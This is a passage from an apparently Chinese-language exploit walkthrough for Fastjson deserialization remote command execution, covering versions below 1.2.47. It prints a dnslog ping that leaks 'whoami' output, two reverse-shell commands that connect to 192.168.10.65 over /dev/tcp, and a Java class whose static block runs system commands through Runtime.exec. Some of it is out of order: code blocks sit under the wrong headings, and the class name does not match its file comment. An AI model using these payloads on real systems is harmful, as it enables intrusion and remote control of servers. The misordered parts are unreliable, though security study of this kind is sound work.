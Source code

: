 可以看见成功写入。  

这里我们用 dnslog 做一个小测试：

```
"/bin/sh","-c","ping user.'whoami'.jeejay.dnslog.cn"
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBgS6pTSYkXwJrg7MzQJkdOIib8KGyl465I9ibNn4gzHEU0jAVUpSZOe53v4Bzv9CYT3zxTbL4Ueobg/640?wx_fmt=png)

直接覆盖原来得文件；  

```
"/bin/bash","-c","exec 5<>/dev/tcp/192.168.10.65/8899;cat <&5 | while read line; do $line 2>&5 >&5; done"
或者
"/bin/bash", "-c", "bash -i >& /dev/tcp/192.168.10.65/1234 0>&1"
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBgS6pTSYkXwJrg7MzQJkdOHQ9fRMicrIgS9WmvAiaJy8O6TWXCW4bibTdtZPrgssXsYC651tqxGnntA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBgS6pTSYkXwJrg7MzQJkdOHibDyRa1X4r6sj5XkoyzDqVMRiaSEe8m56ibS5FZuVedgNxBkEkrVgicXQ/640?wx_fmt=png)

点击 send 发送之后成功回显  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBgS6pTSYkXwJrg7MzQJkdORv9TmNqdBa6lNjdQQMSKgbDvnYIyQ1kUWzeyUr0Bcp4BTmcfWAy04A/640?wx_fmt=png)

##### 反弹 shell 的话也只需修改恶意类中 commands 的内容即可，代码参考如下，建议用第二个，第二个前面带主机名，看起来舒服点，我这里用的第一个；

```
Fastjson < 1.2.47
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBgS6pTSYkXwJrg7MzQJkdOqTnZXn0dV0gUJXuagcJ2CtjicZx8nib11gBRTAC0B7zDLwJp49eMjAHA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBgS6pTSYkXwJrg7MzQJkdOa3tDxkxWWTqsFlsoldtXk3QmhicRndqTOfDzXFlShlALnicztyibmicfPQ/640?wx_fmt=png)

### **2.2 Fastjson 1.2.47 远程命令执行漏洞**

**漏洞原理**  

Fastjson 是阿里巴巴公司开源的一款 json 解析器，其性能优越，被广泛应用于各大厂商的 Java 项目中。fastjson 于 1.2.24 版本后增加了反序列化白名单，而在 1.2.48 以前的版本中，攻击者可以利用特殊构造的 json 字符串绕过白名单检测，成功执行任意命令。  

#### 影响版本

```
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;
public class zcc {
 static {
 try {
 Runtime rt = Runtime.getRuntime();
 String[] commands = {"touch", "/tmp/zcctest111"};
 Process pc = rt.exec(commands);
 pc.waitFor();
 } catch (Exception e) {
 // do nothing
 }
 }
}
```
